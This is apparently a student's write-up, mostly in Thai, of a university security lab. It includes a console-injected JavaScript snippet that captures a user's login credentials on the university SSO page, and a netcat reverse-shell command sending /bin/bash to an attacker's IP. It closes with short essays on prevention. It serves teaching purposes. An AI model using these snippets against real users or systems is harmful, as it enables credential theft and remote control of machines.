

# Activity III: Log Analysis <!-- omit in toc -->

By Saenyakorn Siangsanoh 6232035721

# Table of Contents <!-- omit in toc -->

- [Exercise I](#exercise-i)
  - [Answer](#answer)
- [Exercise II](#exercise-ii)
  - [Answer](#answer-1)
- [Exercise III](#exercise-iii)
  - [Answer I](#answer-i)
  - [Answer II](#answer-ii)

# Exercise I

Javascript Injection. Your friend has just logged out of ChulaSSO
(https://account.it.chula.ac.th/) before leaving his/her computer. You have 2-3 minutes to inject a script to his/her browser so that you can steal his/her username (ChulaId) and password.

For this class, please inject a javascript so that once your friend login (clicks the login button), it will pop up his/her username/password.

## Answer

อันดับแรกเปิด Javascript Console ขึ้นมาก่อน (หรือกด `F12`) หลังจากนั้นทำการ inject javascript เข้าไปดังนี้

```js
document.getElementById('loginForm').addEventListener('submit', () => {
  const user = document.getElementById('username').value
  const password = document.getElementsByName('password')[0].value
  alert('username: ' + user + '\npassword: ' + password)
})
```

หลังจากนั้นเมื่อเพื่อนกรอกข้อมูลลงไปใน Login Form จะมี Alert dialog ปรากฏขึ้นมาดังนี้


# Exercise II

We will mimic an attack used by several worms for placing a trojan horse into
your computer. Please note that it is for demonstration purposes only. Please do not abuse it.

This attack is partly taken from the MSSQL SLAMMER worm that was spread in 2006.

Please install netcat.

- Mac - use homebrew (https://brew.sh/). brew install netcat
- Windows - use cygwin or download prebuilt binary (https://joncraton.org/blog/46/netcat-for-windows/)
- Linux - you may install netcat from your package distribution.
- (On Debian-based Linux, use `apt install netcat-traditional`)

Make a group of two persons. One is a victim. Another is an attacker. Please connect to the same network/WIFI access point. You may share a hotspot from your mobile phone. (Don’t use ChulaWIFI for this.) You may have to turn off your firewall to do this experiment.

First, the attacker will start netcat in listen mode.
`nc -p 60000 -l`

Once you get a change to the victim’s machine, send a remote shell back to the
hacker.

`nc -e [/bin/bash or cmd.exe on Windows] [IP of Hacker] 60000`

You may change the port 60000 to any port that you want.

## Answer

พวกเราได้ลองทำตาม instruction ที่กำหนดไว้ ซึ่งได้ผลลัพธ์ดังนี้

Hacker



Victim


จะสังเกตว่า Hacker สามารถทำอะไรก็ได้กับเหยื่อ แต่ยกเว้นคำสั่ง sudo ซึ่งต้องให้ Victim เป็นคน grant ให้ก่อน

# Exercise III

Write an essay to summarize the lesson that you have learned in this activity. In particular,

1. Explain the worst case scenario that can happen if you leave your computer unattendant.

## Answer I

Hacker จะสามารถ phishing แอบหลอกเอารหัวเราได้ด้วยหลากหลายวิธี ซึ่งอาจจะทำให้ account บางอย่างของเราโดนขโมยไปได้ (โดยเฉพาะ account เกี่ยวกับการเงิน) นอกจากนี้ hacker ยังสามารถ download โปรแกรมบางอย่างเข้าเครื่องของเหยื่อได้โดยที่เหยื่อไม่รู้ตัว ซึ่งก็จะเป็นการเแิดทางให้ Hacker ทำอะไรหลาย ๆ อย่างกับเครื่องเหยื่อได้มากขึ้น

2. Explain how a tool like netcat can be used for constructing a trojan horse. As a user, how will you prevent yourself from being a victim to such attacks?

## Answer II

เนื่องจากเครื่องมืออย่าง `netcat` สามารถให้ Hacker รันคำสั่งอะไรก็ได้ (ยกเว้น sudo) ในเครื่องเหยื่อซึ่ง hacker อาจจะพยายาม install software / program บางอย่างที่มีลักษณะเป็น trojan horse มาไว้ในเครื่องเหยื่อโโยที่เหยื่อไม่รู้ตัว ทำให้เหยื่อได้รับความเสียหายได้

วิธีการป้องกันจากเรื่องนี้คือพยายาม shutdown / restart คอมพิวเตอร์อยู่บ่อยครั้ง และพยายามตรวจสอบ process ต่าง ๆ ใน computer ว่ามี process ใดแปลก ๆ หรือเปล่า รวมถึงตรวจสอบ command history ว่าระหว่างที่เราไม่อยู่มีการรัน command อะไรแปลก ๆ หรือเปล่า
